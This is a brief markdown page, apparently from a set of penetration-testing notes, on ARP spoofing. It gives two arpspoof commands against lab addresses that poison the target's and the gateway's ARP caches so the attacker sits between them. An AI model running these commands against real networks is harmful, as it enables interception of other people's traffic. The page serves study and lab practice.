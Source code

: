 ```yaml
---
description: mapping ip address to mac addresses.
---
```


# ARP SPOOFING

There are various tools used to perform this attacks which includes: **Arpspoof or Driftnet.**

### arpspoof attack:

```
# "-i" denotes the interface to perform the attack, "-t" signifies the target, so we specify the target and the gateway to fool the target/client that we are the AP/gateway.
arpspoof -i eth0 -t 192.168.81.129 192.168.81.2

# "-i" denotes the interface to perform the attack, "-t" signifies the target, so we specify the target and the gateway to fool the AP/Gateway that we are the client.
arpspoof -i eth0 -t 192.168.81.2 192.168.81.129
```

****









